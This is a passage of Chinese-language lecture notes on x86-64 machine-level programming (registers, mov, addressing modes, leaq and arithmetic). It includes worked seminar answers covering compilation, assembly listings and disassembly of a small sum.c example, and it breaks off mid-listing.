
图 3 x86-64 的 16 个整数寄存器及其别名（课件 p.26–27；教材图 3.2）
这种命名是历史演进的结果（课件 p.27）：8086 是 16 位的，寄存器叫 %ax、%cx 等，其中 %ax 的高低两个字节可以作为 %ah、%al 单独使用；386 扩展到 32 位，加前缀 e（extended）得到 %eax；x86-64 再加前缀 r 得到 %rax。为了向后兼容，旧名字被保留下来，指向新寄存器的低位部分。寄存器名字本身也保留了最初的用途：a 是累加器（accumulate），c 是计数器（counter），d 是数据（data），b 是基址（base），si/di 是源/目的变址（source/destination index），sp/bp 是栈指针/基址指针（stack/base pointer）。这些用途在今天大多已经过时，但 %rsp 仍然专用于栈指针，部分指令仍隐式使用特定寄存器（如乘除法使用 %rax、%rdx，移位量使用 %cl）。
★ 写入部分寄存器时，其余的位怎样变化？（教材 3.4 节；已在 x86-64 上实测）
设 %rax = 0x0011223344556677，分别执行下面的指令后：
指令
写入宽度
执行后 %rax
规则
movb $-1, %al
1 字节
0x00112233445566FF
只改低 1 字节，其余不变
movb $0xAA, %ah
1 字节
0x001122334455AA77
只改第 8–15 位
movw $-1, %ax
2 字节
0x001122334455FFFF
只改低 2 字节，其余不变
movl $-1, %eax
4 字节
0x00000000FFFFFFFF
高 4 字节被清零！
movq $-1, %rax
8 字节
0xFFFFFFFFFFFFFFFF
全部写入
从表中可以总结出一条规律：生成 4 字节结果的指令会把高 4 字节清零；生成 1、2 字节结果的指令不改变其余字节。这条规则在 x86-64 中引入，是为了避免读取部分寄存器带来的依赖问题，也使得把 32 位无符号数扩展到 64 位不需要专门的指令。
表 5 寄存器使用约定（预告）
| 寄存器 | 约定用途（System V x86-64 ABI，第 6 讲详述） |
|---|---|
%rdi、%rsi、%rdx、%rcx、%r8、%r9 | 依次传递前 6 个整数/指针参数 |
%rax | 返回值 |
%rsp | 栈指针，指向栈顶，专门用途 |
%rbx、%rbp、%r12～%r15 | 被调用者保存：函数若使用它们，须在返回前恢复原值（所以课件 p.15 中 sumstore 要 pushq %rbx / popq %rbx） |
%r10、%r11 | 调用者保存：被调用函数可以随意改写 |
常见问题：寄存器里存的是什么？
寄存器只保存固定数量的二进制位，不附带任何类型标签。同一个 64 位全 1 的值，被 addq 当作整数、被 (%rax) 当作地址、被 ja/jg 当作无符号或有符号数——含义完全由使用它的指令决定。这和第 2 讲的结论“位模式本身没有意义，类型决定解释”一脉相承：在机器层面，“类型”就体现在指令的选择上。
4.4 操作数与数据传送指令 mov（课件 p.28–29）#
movq Source, Dest 把 8 字节数据从源送到目的地。AT&T 语法中源在前、目的在后（Intel 文档的写法相反：mov Dest, Source，阅读资料时务必注意）。操作数有三种类型：
表 6 三种操作数（课件 p.28）
| 类型 | 写法 | 说明 | 例子 |
|---|---|---|---|
| 立即数（immediate） | $ + 常数 | 常整数，像 C 常量，但要加 $ 前缀；编码在指令中，占 1、2 或 4 字节 | $0x400、$-533 |
| 寄存器（register） | % + 名字 | 16 个整数寄存器之一；%rsp 留作专门用途，其他寄存器在某些指令中也有特殊用途 | %rax、%r13 |
| 内存引用（memory） | (…) 寻址模式 | 寄存器给出地址处的连续若干字节（movq 为 8 个）；还有多种“寻址模式” | (%rax)、8(%rbp) |
表 7 movq 的五种操作数组合（课件 p.29）
| 源 | 目的 | 汇编 | C 中的对应 | |
|---|---|---|---|---|
| 立即数 | 寄存器 | movq $0x4,%rax | temp = 0x4; | |
| 立即数 | 内存 | movq $-147,(%rax) | *p = -147; | |
| 寄存器 | 寄存器 | movq %rax,%rdx | temp2 = temp1; | |
| 寄存器 | 内存 | movq %rax,(%rdx) | *p = temp; | 存储 store |
| 内存 | 寄存器 | movq (%rax),%rdx | temp = *p; | 加载 load |
| 内存 | 内存 | ✗ 不能用一条指令完成 | *p = *q; 需要两条指令 |
“为什么不能内存到内存”在研讨题 2（2）中讨论。此外，立即数不能作为目的操作数（常数不能被赋值）。
4.5 寻址模式（课件 p.30、38–40）#
★ 内存寻址的最一般形式（课件 p.39）
D 是常数“偏移量”（displacement），占 1、2 或 4 字节。
Rb 是基址寄存器，可以是 16 个整数寄存器中的任意一个。
Ri 是变址寄存器，可以是除 %rsp 外的任意寄存器。
S 是比例因子，只能是 1、2、4 或 8（为什么？见研讨题 2（6））。
任何一部分都可以省略：省略 D 视为 0，省略 Rb 或 Ri 视为不参与计算，省略 S 视为 1。
表 8 常用寻址模式（课件 p.30、39；教材图 3.3）
| 形式 | 有效地址 | 名称 | 典型用途 |
|---|---|---|---|
(R) | 间接寻址（Normal） | 指针解引用 *p | |
D(R) | 基址 + 偏移量（Displacement） | 结构体字段 p->field、栈上变量 | |
(Rb,Ri) | 变址寻址 | char 数组 a[i] | |
D(Rb,Ri) | 变址 + 偏移 | a[i+k] | |
(Rb,Ri,S) | 比例变址寻址 | int/long 数组 a[i] | |
D(,Ri,S) | 无基址的比例变址 | 全局数组 g[i]（D 为数组地址） |
表 9 地址计算示例（课件 p.40；%rdx = 0xf000，%rcx = 0x0100）
| 表达式 | 地址计算 | 地址 |
|---|---|---|
0x8(%rdx) | 0xf000 + 0x8 | 0xf008 |
(%rdx,%rcx) | 0xf000 + 0x100 | 0xf100 |
(%rdx,%rcx,4) | 0xf000 + 4×0x100 | 0xf400 |
0x80(,%rdx,2) | 2×0xf000 + 0x80 | 0x1e080 |
⚠ 括号里算出的是地址，不是值
寻址模式 D(Rb,Ri,S) 只是一个地址公式。对 mov 来说，算出地址后还要访问该地址的内存；对 leaq 来说，算出的地址本身就是结果，不访问内存（4.8 节）。计算地址也不会修改 Rb、Ri 寄存器的值。比例因子 S 决定下标的步长（元素大小），而读写多少字节由指令后缀（b/w/l/q）决定，两者不能混淆。
4.6 例子：swap（课件 p.31–37）#
void swap(long *xp, long *yp) swap:
{ movq (%rdi), %rax # t0 = *xp
long t0 = *xp; movq (%rsi), %rdx # t1 = *yp
long t1 = *yp; movq %rdx, (%rdi) # *xp = t1
*xp = t1; movq %rax, (%rsi) # *yp = t0
*yp = t0; ret
}先看寄存器分配：第一个参数 xp 在 %rdi，第二个参数 yp 在 %rsi，局部变量 t0、t1 分别放在 %rax、%rdx。C 中的指针就是地址，解引用就是用 (…) 访问内存。设 xp = 0x120，yp = 0x100，内存中 *xp = 123，*yp = 456，逐条执行：
表 10 swap 的执行过程（课件 p.33–37；黄底为本步改变的值）
| 执行后 | %rdi | %rsi | %rax | %rdx | M[0x120] | M[0x100] | 说明 |
|---|---|---|---|---|---|---|---|
| 初始 | 0x120 | 0x100 | 123 | 456 | |||
movq (%rdi), %rax | 0x120 | 0x100 | 123 | 123 | 456 | 加载：读 M[0x120] | |
movq (%rsi), %rdx | 0x120 | 0x100 | 123 | 456 | 123 | 456 | 加载：读 M[0x100] |
movq %rdx, (%rdi) | 0x120 | 0x100 | 123 | 456 | 456 | 456 | 存储：写 M[0x120] |
movq %rax, (%rsi) | 0x120 | 0x100 | 123 | 456 | 456 | 123 | 存储：写 M[0x100] |
这里有两点需要注意：（1）%rdi、%rsi 中的地址自始至终没有改变，改变的是地址处的数据；（2）必须先把两个值都读进寄存器再写回，否则第一次写入会覆盖还没读出的值——这正是 C 代码中需要临时变量的原因。
4.7 更多数据传送指令（教材 3.4.2–3.4.4 节）#
表 11 其他数据传送指令
| 指令 | 效果 | 说明 |
|---|---|---|
movb / movw / movl / movq | 传送字节 / 字 / 双字 / 四字 | 后缀表示操作数大小：b = 1、w = 2、l = 4、q = 8 字节；寄存器操作数的大小必须与后缀一致 |
movabsq I, R | 传送 64 位立即数到寄存器 | 普通 movq 的立即数只有 32 位（符号扩展到 64 位）；只有 movabsq 能带任意 64 位立即数，目的只能是寄存器 |
movz S, R（movzbw movzbl movzwl movzbq movzwq） | 零扩展传送 | 把较小的源零扩展后存入较大的寄存器；源可以是寄存器或内存 |
movs S, R（movsbw movsbl movswl movsbq movswq movslq） | 符号扩展传送 | 把较小的源符号扩展后存入较大的寄存器（第 2 讲的符号扩展在硬件中的体现） |
cltq | %rax ← 符号扩展(%eax) | 等价于 movslq %eax, %rax，但编码更短 |
pushq S | %rsp 减 8，再把 S 存入 M[%rsp] | 压栈：栈向低地址增长 |
popq D | 把 M[%rsp] 读入 D，再 %rsp 加 8 | 出栈 |
没有 movzlq：因为 movl 写 32 位寄存器时会自动把高 32 位清零，已经实现了 4 字节到 8 字节的零扩展。研讨题 2（3）给出了这些指令的实测示例。
4.8 leaq 与算术、逻辑运算（课件 p.42–46）#
地址计算指令 leaq#
leaq Src, Dst（load effective address，加载有效地址）中，Src 是寻址模式表达式，指令把该表达式表示的地址写入 Dst，而不访问内存。它有两种用途：一是计算地址而不引用内存，如 p = &x[i];；二是计算形如 （k = 1、2、4、8）的算术表达式。
long m12(long x) leaq (%rdi,%rdi,2), %rax # t <- x + x*2
{ salq $2, %rax # return t << 2
return x * 12; ret
}常见问题：leaq 与 movq 的区别
设 %rdi = 0x1000（int 数组 a 的地址），%rsi = 3：leaq (%rdi,%rsi,4), %rax 得到 %rax = 0x100C，相当于 C 的 &a[3]，不读内存；movl (%rdi,%rsi,4), %eax 读取地址 0x100C 处的 4 字节，相当于 a[3]。leaq 的 q 指结果是 64 位，不表示读 8 字节；leaq 不改变条件码。leaq 也常用于纯算术，例如 return 5*x+8; 被编译为 leaq 8(%rdi,%rdi,4), %rax（gcc 13 实测）。
算术与逻辑运算指令#
表 12 双操作数指令（课件 p.43）
| 格式 | 计算 | 备注 |
|---|---|---|
addq Src,Dest | Dest = Dest + Src | |
subq Src,Dest | Dest = Dest − Src | 注意是 Dest 减 Src |
imulq Src,Dest | Dest = Dest × Src | 保留乘积的低 64 位 |
salq Src,Dest | Dest = Dest << Src | 也写作 shlq |
sarq Src,Dest | Dest = Dest >> Src | 算术右移 |
shrq Src,Dest | Dest = Dest >> Src | 逻辑右移 |
xorq Src,Dest | Dest = Dest ^ Src | |
andq Src,Dest | Dest = Dest & Src | |
orq Src,Dest | Dest = Dest | Src |
表 13 单操作数指令（课件 p.44）
| 格式 | 计算 |
|---|---|
incq Dest | Dest = Dest + 1 |
decq Dest | Dest = Dest − 1 |
negq Dest | Dest = −Dest |
notq Dest | Dest = ~Dest |
⚠ 两个要点
第一点要注意参数顺序：subq %rax, %rdx 计算的是 %rdx = %rdx − %rax。Intel 文档写作 op Dest, Src，顺序相反。
第二点是有符号与无符号不区分（课件 p.43 问为什么）：由第 2 讲，补码与无符号数的加法、减法、乘法（保留低位）在位级完全相同，所以一条 addq 同时适用于两者。只有结果的解释（溢出标志用 OF 还是 CF）、右移（sar 与 shr）、比较后的跳转、除法和完整的乘积才需要区分。
移位量可以是立即数，或放在单字节寄存器 %cl 中（只能是 %cl）。对 64 位数据只看移位量的低 6 位，对 32 位数据只看低 5 位。
例子：arith（课件 p.45–46）#
long arith(long x, long y, long z) arith:
{ leaq (%rdi,%rsi), %rax # t1 = x + y
long t1 = x + y; addq %rdx, %rax # t2 = z + t1
long t2 = z + t1; leaq (%rsi,%rsi,2), %rdx # 3*y
long t3 = x + 4; salq $4, %rdx # t4 = 48*y
long t4 = y * 48; leaq 4(%rdi,%rdx), %rcx # t5 = t3 + t4
long t5 = t3 + t4; imulq %rcx, %rax # rval = t2 * t5
long rval = t2 * t5; ret
return rval;
}| 寄存器 | 用途 |
|---|---|
%rdi | 参数 x |
%rsi | 参数 y |
%rdx | 参数 z，之后复用为 3y、t4 |
%rax | t1、t2，最后是返回值 rval |
%rcx | t5 |
这段代码有几点值得注意：（1）C 中的 6 个临时变量没有一个占用内存，全部在寄存器中；t3 甚至没有单独出现，而是被合并进了计算 t5 的 leaq 4(%rdi,%rdx)。（2）y * 48 被拆成 3y（leaq）再左移 4 位，真正的乘法指令 imulq 只用了一次。（3）z 在 addq 后不再需要，于是 %rdx 被复用。gcc 13 实测的结果与课件几乎相同，只是把 t5 放在 %rdx 而非 %rcx——编译器的寄存器分配可以有多种合法选择。研讨题 2（7）有更详细的逐行对照。
教材 特殊的算术操作（教材 3.5.5 节）
| 指令 | 效果 | 说明 |
|---|---|---|
imulq S | %rdx:%rax ← S × %rax | 有符号全乘法，128 位结果 |
mulq S | %rdx:%rax ← S × %rax | 无符号全乘法 |
cqto | %rdx:%rax ← 符号扩展(%rax) | 把 %rax 的符号位复制到整个 %rdx（Intel 称 cqo） |
idivq S | %rax ← 商，%rdx ← 余数 | 有符号除法，被除数为 %rdx:%rax |
divq S | %rax ← 商，%rdx ← 余数 | 无符号除法，事先把 %rdx 清零 |
%rdx:%rax 表示把 %rdx（高 64 位）和 %rax（低 64 位）拼成一个 128 位数。gcc 对 long 除法 x / y 生成 movq %rdi,%rax; cqto; idivq %rsi，对 unsigned long 除法则生成 movl $0,%edx; divq %rsi（实测）。作业 3.59 就是这些指令的综合应用。
本讲小结（课件 p.47）#
Intel 处理器与体系结构的历史表明，演进式设计带来了许多怪癖和历史遗留。
C、汇编、机器码这一层引入了新的可见状态（程序计数器、寄存器……）；编译器必须把语句、表达式、过程翻译成低级指令序列。
汇编基础包括寄存器、操作数和传送，x86-64 的 mov 指令覆盖了范围很广的数据传送形式。
算术部分则看到 C 编译器会找出不同的指令组合来完成计算。
第二部分 小班研讨题解答（第 4 讲）#
题目来自《ICS 小班研讨题和作业题（第 4 讲）》。凡是涉及“在自己电脑上编译”的题目，讲义给出了在 x86-64 Linux（gcc 13.3）上的实测结果；对使用 Mac 的同学，也附上了用 clang 为 Apple silicon（arm64）和 Intel Mac（x86-64）生成的代码，供对照。
研讨题 1#
1（1）拓展研讨：基于课件第 6、7 页的内容，调研当前市场主流的服务器、桌面个人计算机、笔记本电脑和智能手机的处理器芯片的体系结构、制造工艺（nm）、主频（GHz）、功耗（W）以及包含的核数。
课件 p.7 介绍的是 2018 年的 Coffee Lake：14 nm 工艺，移动版 2.2–3.2 GHz、45 W，桌面版 2.4–4.0 GHz、35–95 W，服务器版 3.3–3.8 GHz、80–95 W。下表是截至 2026 年中各领域的代表产品（数据来自厂商发布与媒体报道，此领域更新很快，请以最新资料为准）：
表 14 2026 年主流处理器概览
| 领域 | 代表芯片 | ISA | 工艺 | 最高主频 | 功耗 | 核数 |
|---|---|---|---|---|---|---|
| 服务器 | AMD EPYC 9965（Zen 5c，2024） | x86-64 | TSMC 3 nm | 3.7 GHz | 500 W | 192 |
| Intel Xeon 6980P（Granite Rapids，2024） | x86-64 | Intel 3 | 3.9 GHz | 500 W | 128 | |
| AMD EPYC “Venice”（Zen 6，2026 年下半年出货） | x86-64 | TSMC N2（2 nm） | — | — | 最多 256 | |
| Intel Xeon 6+ “Clearwater Forest”（2026） | x86-64 | Intel 18A | — | — | 最多 288（E 核） | |
| AWS Graviton4、NVIDIA Grace 等 | ARM64 | TSMC 4/5 nm 级 | 约 3 GHz | 数百 W | 72～96 | |
| 桌面 | AMD Ryzen 9 9950X3D（Zen 5） | x86-64 | TSMC 4 nm（计算芯粒） | 5.7 GHz | 170 W | 16 |
| Intel Core Ultra 9 285K（Arrow Lake） | x86-64 | TSMC 3 nm（计算模块） | 5.7 GHz | 125 W 基础 / 250 W 睿频 | 24（8P + 16E） | |
| 笔记本 | Apple M5（2025） | ARM64 | TSMC 3 nm（第三代） | 约 4.6 GHz | 约 20～30 W 级 | 10（4P + 6E） |
| Intel Core Ultra 300 “Panther Lake”（2026） | x86-64 | Intel 18A | 约 5.1 GHz | 15～28 W 基础 | 最多 16 | |
| Qualcomm Snapdragon X2 Elite | ARM64 | TSMC 3 nm | 约 5.0 GHz | 数十 W | 最多 18 | |
| 手机 | Qualcomm Snapdragon 8 Elite Gen 5 | ARM64 | TSMC 3 nm | 4.61 GHz | 峰值约 10 W 量级 | 8（2 + 6） |
| Apple A19 Pro | ARM64 | TSMC 3 nm | 4.26 GHz | 同上 | 6（2 + 4） | |
| MediaTek Dimensity 9500 | ARM64 | TSMC 3 nm | 4.21 GHz | 同上 | 8（1 + 3 + 4） | |
| Samsung Exynos 2600 | ARM64 | Samsung 2 nm | 3.8 GHz | 同上 | 10（1 + 3 + 6） |
从这些数据可以作出几点观察。（1）从 ISA 格局看，服务器和台式机仍以 x86-64 为主，但 ARM 在云服务器中快速增长；手机几乎全部是 ARM；笔记本则两者并存（Apple 已全面转向 ARM，Windows 阵营也出现了 ARM 笔记本）。（2）从工艺看，主流已进入 3 nm，2 nm 级开始量产；正如课件 p.6 所说，“nm”如今更多是工艺代际的名称，不再等于某个实际尺寸。（3）主频方面，自 2005 年前后受功耗墙限制，主频长期停留在 3～6 GHz，性能提升主要依靠更多的核和更宽的微体系结构。（4）功耗与核数则取决于场景：服务器追求吞吐，单芯片数百核、数百瓦；手机受电池和散热限制，持续功耗只有几瓦，因此普遍采用“大核 + 小核”的异构设计，台式机和笔记本（Intel 的 P 核 + E 核）也借鉴了这一思路。
1（2）以课件第 13 页的图为主要依据，讲述 CPU 执行如下指令时的操作流程：addq %rdx, (%rcx)。要把图中涉及的每个小框和连线的作用都讲到。注意还要结合第 2 讲的内容，分析两个整型数相加产生的进位会如何处理。
这条指令的含义是 M[%rcx] = M[%rcx] + %rdx：把内存中地址为 %rcx 的 8 字节加上 %rdx，结果写回内存。它的机器码是 48 01 11（3 字节，已用汇编器验证）。设 %rcx = 0x200，%rdx = 5，M[0x200] = 10，对照图 1 的编号：
第一步取指，PC（%rip）中保存这条指令的地址。CPU 把它通过 Addresses 线送往内存，访问内存中的 Code 区域。
指令回传时，内存把指令字节 48 01 11 通过 Instructions 线送回 CPU。CPU 译码得知：这是 64 位加法（48 为 REX.W 前缀，01 为 add），源操作数是寄存器 %rdx，目的操作数是内存 (%rcx)。同时 PC 增加 3，指向下一条指令。
计算地址时，CPU 从寄存器文件读出 %rcx 的值 0x200 作为有效地址，再次通过 Addresses 线送往内存，这次访问的是 Data 区域。
读数据时，内存把地址 0x200 起的 8 个字节（小端顺序）通过 Data 线送回 CPU，得到 10。
运算时，ALU 从寄存器文件读出 %rdx = 5，由 ALU 计算 10 + 5 = 15。根据结果设置条件码（Condition Codes）：ZF（结果是否为 0）、SF（结果符号位）、CF（无符号进位）、OF（有符号溢出）。
最后写回，把结果 15 通过 Data 线写回地址 0x200（地址仍由 Addresses 线给出）。寄存器 %rcx、%rdx 本身都不改变。
图中各部分的作用总结如下：PC 决定下一条执行哪条指令；寄存器提供地址（%rcx）和操作数（%rdx）；条件码记录这次加法的状态，供后续条件跳转使用；Addresses 是 CPU 发往内存的地址（本条指令用了两次：取指一次、访问数据一次）；Data 是双向的数据通路（本条指令读一次、写一次）；Instructions 是取回的指令；内存中的 Code 区存放这条指令本身，Data 区存放被加的数，Stack（栈）在本条指令中没有用到。
★ 进位如何处理（结合第 2 讲）
64 位加法器计算出的真实和可能需要 65 位。正如第 2 讲所说，结果只保留低 64 位（模 ），最高位的进位不写入结果，而是记录在条件码 CF 中；同时 CPU 还按补码规则计算有符号溢出，记录在 OF 中。同一条 addq 既可以看作无符号加法，也可以看作补码加法，由后续指令决定看 CF 还是 OF。
M[%rcx]（加前）
%rdx
写回结果
CF
OF
解释
10
5
15
0
0
正常
0xFFFF…FFFF
2
1
1
0
无符号：UMax + 2 回绕；有符号：−1 + 2 = 1，正确
0x7FFF…FFFF
1
0x8000…0000
0
1
无符号：正确；有符号：TMax + 1 正溢出为 TMin
上表后两行已在 x86-64 上用内联汇编实测。C 语言层面看不到 CF/OF，但第 5 讲会讲到 ja、jg、setc、seto 等指令如何使用它们。多精度加法（如 128 位加法）正是利用 CF：先 addq 低 64 位，再用 adcq（带进位加）加高 64 位。
1（3）根据课件第 14 页的流程图，讲述从 C 语言程序到二进制可执行文件的转换过程。
以 gcc -Og p1.c p2.c -o p 为例，gcc 实际上是一个“驱动程序”，依次调用以下工具（可以加 -v 选项看到完整过程）：
| 阶段 | 工具 | 输入 → 输出 | 单独执行的命令 | 做了什么 |
|---|---|---|---|---|
| 预处理 | cpp | p1.c → p1.i（文本） | gcc -E p1.c | 展开 #include、宏定义 #define、条件编译 #if；删除注释。图 2 中省略了这一步，把它并入了“编译” |
| 编译 | cc1 | p1.i → p1.s（文本） | gcc -Og -S p1.c | 把 C 翻译成汇编语言：分析语法语义、优化（-Og 级别）、分配寄存器、选择指令 |
| 汇编 | as | p1.s → p1.o（二进制） | gcc -c p1.s | 把每条汇编指令翻译成机器码，生成可重定位目标文件；对外部符号（如 plus）的引用暂时留空，记录为“重定位项” |
| 链接 | ld | p1.o p2.o + 库 → p（二进制） | gcc p1.o p2.o -o p | 合并各目标文件的代码与数据，解析符号引用（把 call plus 的目标填为真实地址），并入静态库（.a）中用到的代码，生成可执行文件；动态库在程序运行时由动态链接器加载 |
图 2 中区分了“text”与“binary”：.c 和 .s 是人可以阅读的文本文件，.o 和可执行文件是二进制文件。研讨题 1（7）中可以看到，.o 中 call 指令的目标地址确实还是 0（e8 00 00 00 00），由链接器填入。链接的细节在第 16 讲讲解。
1（4）根据课件第 15 页的指导，在自己电脑上将 sum.c 转换成汇编代码 sum.s 并展示，再结合课件第 16、17 页的指导，去除那些目前“不重要”的代码，再和课件第 15 页上 sumstore 标识的汇编代码做简要对比异同。
.file "sum.c"
.text
.globl sumstore
.type sumstore, @function
sumstore:
.LFB0:
.cfi_startproc
endbr64
pushq %rbx
.cfi_def_cfa_offset 16
.cfi_offset 3, -16
movq %rdx, %rbx
call plus@PLT
movq %rax, (%rbx)
popq %rbx
.cfi_def_cfa_offset 8
ret
.cfi_endproc
.LFE0:
.size sumstore, .-sumstore
.ident "GCC: (Ubuntu 13.3.0-6ubuntu2~24.04.1) 13.3.0"
.section .note.GNU-stack,"",@progbits
... （其后还有 .note.gnu.property 节，略）去掉以“.”开头的伪指令和标号 .LFB0、.LFE0 后，剩下：
sumstore: # 课件 p.15
endbr64 # （课件中没有）
pushq %rbx pushq %rbx
movq %rdx, %rbx movq %rdx, %rbx
call plus@PLT call plus
movq %rax, (%rbx) movq %rax, (%rbx)
popq %rbx popq %rbx
ret ret| 说明 | |
|---|---|
| 相同点 | 指令序列与课件完全一致：保存 %rbx（被调用者保存寄存器）→ 把 dest（第 3 个参数，在 %rdx）存到 %rbx 以便在调用 plus 后仍能使用 → 调用 plus → 把返回值 %rax 存到 *dest → 恢复 %rbx → 返回 |
endbr64 | Ubuntu 的 gcc 默认开启 Intel CET（控制流强制技术）的 -fcf-protection，在每个函数入口插入 endbr64，标记“合法的间接跳转目标”，用于防御控制流劫持攻击（与 Attack Lab 相关）。加 -fcf-protection=none 即可去掉 |
plus@PLT | Ubuntu 默认生成位置无关可执行文件（PIE），对外部函数的调用经过过程链接表（PLT），由动态链接机制确定地址（第 16 讲）。加 -fno-pie 后变为 call plus |
| 伪指令 | .cfi_* 是调试/异常处理用的栈帧信息；.globl 声明全局符号；.type、.size 描述符号类型和大小；.ident 记录编译器版本；.note.GNU-stack 声明栈不可执行 |
教材 在 Mac 上会看到什么（clang 18 生成，供对照）
在 Apple silicon 的 Mac 上直接 cc -O1 -S sum.c 得到的是 ARM64 汇编，与 x86-64 完全不同：
_sumstore:
stp x20, x19, [sp, #-32]! ; 保存寄存器到栈（一次存两个）
stp x29, x30, [sp, #16] ; 保存帧指针和返回地址寄存器
add x29, sp, #16
mov x19, x2 ; dest（第 3 个参数 x2）存到被调用者保存寄存器 x19
bl _plus ; 调用 plus，返回值在 x0
str x0, [x19] ; *dest = t
ldp x29, x30, [sp, #16]
ldp x20, x19, [sp], #32
ret可以看到思路完全相同（参数在寄存器、保存被调用者保存寄存器、调用、存储），只是 ISA 不同：ARM 的目的操作数写在前面，用 str/ldr 专门访问内存，算术指令不能直接操作内存。macOS 的符号名前都有下划线（_sumstore）。若要得到 x86-64 代码，可以用 cc -arch x86_64 -O1 -S sum.c；但为了与课件、Bomb Lab 一致，建议在课程服务器（Linux）上完成实验。
1（5）根据课件第 19 页，为每种类别找出至少一个汇编指令样例，优先从本课件的代码示例中找，个别找不到的另行查找。
| 类别（课件 p.19） | 指令样例 | 来源 | 含义 |
|---|---|---|---|
| 从内存加载到寄存器（load） | movq (%rdi), %rax | 课件 p.31 swap | t0 = *xp |
| 把寄存器存储到内存（store） | movq %rax, (%rbx) | 课件 p.15 sumstore | *dest = t |
| 对寄存器数据做算术运算 | addq %rdx, %rax | 课件 p.45 arith | t2 = z + t1 |
| 对内存数据做算术运算 | addq $1, (%rdi) | gcc -O2 编译 void inc(long *p){ (*p)++; } | 直接对内存加 1 |
| 无条件跳转：过程调用 / 返回 | call plus / ret | 课件 p.15 sumstore | 调用 plus；返回调用者 |
| 条件分支 | cmpq %rsi, %rdi + jge .L5 | gcc -Og 编译教材 3.6.6 节的 absdiff（if (x < y) 版本；第 5 讲内容） | 若 x ≥ y 则跳转 |
| 间接分支 | jmp *%rax | gcc -Og 编译 switch 语句（跳转表，第 5 讲） | 跳到 %rax 中保存的地址 |
call *%rax | gcc -Og 编译 return f(x);（函数指针） | 调用 %rax 中保存的地址 |
1（6）在课件第 22 页，逐行解释方框中反汇编后的内容都是什么含义。
每一行分三栏：指令地址（十六进制）、机器码字节、汇编助记符与操作数。第一行 0000000000400595 <sumstore>: 表示函数 sumstore 从地址 0x400595 开始。
表 15 课件 p.22 反汇编逐行解读
| 地址 | 机器码 | 汇编 | 编码解读 | 含义 |
|---|---|---|---|---|
| 400595 | 53 | push %rbx | 0x50 + 3，3 是 %rbx 的编号 | 把 %rbx 压栈（%rsp −= 8） |
| 400596 | 48 89 d3 | mov %rdx,%rbx | 48：REX.W 前缀，64 位操作；89：mov r/m ← r；d3 = 11 010 011：寄存器到寄存器，reg = 2（%rdx），r/m = 3（%rbx） | %rbx = %rdx（保存 dest） |
| 400599 | e8 f2 ff ff ff | callq 400590 <plus> | e8：相对调用；后 4 字节是小端的 32 位偏移 0xfffffff2 = −14。目标 = 下一条指令地址 0x40059e − 14 = 0x400590 | 调用 plus（返回地址压栈） |
| 40059e | 48 89 03 | mov %rax,(%rbx) | 03 = 00 000 011：内存操作数，reg = 0（%rax），r/m = 3（(%rbx)） | *dest = t |
| 4005a1 | 5b | pop %rbx | 0x58 + 3 | 恢复 %rbx |
| 4005a2 | c3 | retq | 返回 | 返回调用者 |
从表中可以观察到：（1）地址之差就是指令长度：1、3、5、3、1、1 字节，共 14 字节，与课件 p.20 一致；（2）call 中的偏移量按小端存放，且是相对于下一条指令的地址（PC 相对寻址，偏移为 32 位有符号补码，往回跳时为负），所以代码被放到别的地址时这 4 个字节不必修改；（3）反汇编时省略了大部分大小后缀（mov 而非 movq），但对 call 和 ret 加了 q，较新版本的 objdump 则显示为 call、ret。
1（7）用课件第 22、23 页介绍的方法，在自己电脑上先将 sum.c 编译成机器语言代码，再反汇编，展示结果并和课件上的反汇编结果对比异同。
需要补充一个包含 plus 和 main 的 main.c 才能链接成可执行文件。在 x86-64 Linux 上的实测（gcc -Og -o prog main.c sum.c，objdump -d prog）：
# 默认选项（PIE + CET）：
00000000000011d5 <sumstore>:
11d5: f3 0f 1e fa endbr64
11d9: 53 push %rbx
11da: 48 89 d3 mov %rdx,%rbx
11dd: e8 87 ff ff ff call 1169 <plus>
11e2: 48 89 03 mov %rax,(%rbx)
11e5: 5b pop %rbx
11e6: c3 ret
# 加 -fcf-protection=none -fno-pie -no-pie 后：
0000000000401198 <sumstore>:
401198: 53 push %rbx
401199: 48 89 d3 mov %rdx,%rbx
